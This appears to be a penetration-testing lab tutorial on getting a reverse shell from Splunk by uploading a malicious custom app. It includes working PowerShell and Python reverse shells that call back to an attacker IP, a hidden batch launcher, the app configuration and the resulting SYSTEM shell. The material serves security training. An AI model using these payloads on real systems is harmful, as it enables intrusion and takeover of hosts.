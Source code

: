 # Attacking Splunk

As discussed in the previous section, we can gain remote code execution on Splunk by creating a custom application to run Python, Batch, Bash, or PowerShell scripts. From the Nmap discovery scan, we noticed that our target is a Windows server. Since Splunk comes with Python installed, we can create a custom Splunk application that gives us remote code execution using Python or a PowerShell script.

***

## Abusing Built-In Functionality

We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk package to assist us. The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Let's walk through this step-by-step.

To achieve this, we first need to create a custom Splunk application using the following directory structure.

```shell-session
$ tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```

The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a PowerShell one-liner.

```powershell
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
$ cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```shell-session
$ tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

The next step is to choose `Install app from file` and upload the application.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/search/apps/local</p></figcaption></figure>

Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
$ sudo nc -lnvp 443

listening on [any] 443 ...
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal</p></figcaption></figure>

As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.

```shell-session
$ sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

In this case, we got a shell back as `NT AUTHORTY\SYSTEM`. If this were a real-world assessment, we could proceed to enumerate the target for credentials in the registry, memory, or stored elsewhere on the file system to use for lateral movement within the network. If this was our initial foothold in the domain environment, we could use this access to begin enumerating the Active Directory domain.

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.
